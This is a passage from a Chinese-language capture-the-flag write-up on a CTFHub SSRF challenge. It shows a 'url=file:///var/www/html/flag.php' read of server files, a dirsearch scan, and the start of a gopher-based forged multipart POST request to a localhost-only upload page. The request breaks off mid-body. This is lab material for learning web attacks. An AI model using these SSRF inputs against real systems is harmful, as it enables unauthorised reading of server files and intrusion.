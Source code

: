 ```http://challenge-c31e7c56cac9116a.sandbox.ctfhub.com:10800/?url=file:///var/www/html/flag.php```

dirsearch扫描一下

![image-20250419214819464](image-20250419214819464.png)

发现有个flag.php

![image-20250419214846095](image-20250419214846095.png)

打开后是文件上传

![image-20250419214942986](image-20250419214942986.png)

![image-20250419214954615](image-20250419214954615.png)

加个提交按钮

![image-20250419215501025](image-20250419215501025.png)

~~上传一句话木马后显示只能从127.0.0.1上看~~

> 看了一下别人的wp发现和一句话木马没关系，为啥要叫webshell，以为要上传一句话呢

上传一个文本文件



![image-20250419215757101](image-20250419215757101.png)

![image-20250419221958197](image-20250419221958197.png)

用gopher协议

```
POST /flag.php HTTP/1.1
Host: challenge-1e43d5d6a835ce72.sandbox.ctfhub.com:10800
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=----geckoformboundaryc2989fe8059f83f994d023bd4cf9bce8
Content-Length: 333
Origin: http://challenge-1e43d5d6a835ce72.sandbox.ctfhub.com:10800
Connection: close
Referer: http://challenge-1e43d5d6a835ce72.sandbox.ctfhub.com:10800/?url=127.0.0.1/flag.php
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Pragma: no-cache
Cache-Control: no-cache

------geckoformboundaryc2989fe8059f83f994d023bd4cf9bce8
Content-Disposition: form-data; name="file"; filename="ss.txt"
Content-Type: text/plain
